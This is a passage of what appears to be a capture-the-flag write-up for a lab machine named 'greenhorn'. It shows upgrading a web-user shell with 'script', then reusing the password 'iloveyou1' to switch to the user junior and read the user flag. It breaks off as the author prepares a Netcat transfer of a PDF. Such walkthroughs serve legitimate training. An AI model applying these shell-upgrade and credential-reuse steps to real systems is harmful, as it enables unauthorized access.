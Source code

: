 ```bash
script /dev/null -c /bin/bash
```

**Interactive Shell Output:**

```
Script started, output log file is '/dev/null'.
www-data@greenhorn:/$ 
www-data@greenhorn:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Lateral Movement

Now that we have a shell we can explore a bit. By navigating through the file system we can find that there is a user `junior` who was also mentioned on the main website. Assuming that `junior` might use the same password in multiple places we can attempt to switch users with the password `iloveyou1`.

```bash
su junior
```

**Switch User Output:**

```
www-data@greenhorn:/$ su junior
Password: iloveyou1
junior@greenhorn:/$
```

Our attempt was successful as we now have a session as `junior` and can navigate to his home directory to find the user flag.

```bash
cd /home/junior
ls -la
cat user.txt
```

**Junior Home Directory Listing:**

```
total 76
drwxr-xr-x 3 junior junior  4096 Jun 20 06:36  .
drwxr-xr-x 4 root   root    4096 Jun 20 06:36  ..
lrwxrwxrwx 1 junior junior     9 Jun 11 14:38  .bash_history -> /dev/null
drwx------ 2 junior junior  4096 Jun 20 06:36  .cache
-rw-r----- 1 root   junior    33 Jul 30 08:56  user.txt
-rw-r----- 1 root   junior 61367 Jun 11 14:39 'Using OpenVAS.pdf'
```

## Privilege Escalation

Also in `junior`'s home directory is the pdf file `Using OpenVAS.pdf`. To read it we will have to transfer it to our machine and we can do so using Netcat. First, we will open a Netcat listener on our local machine on a different port from our shell.
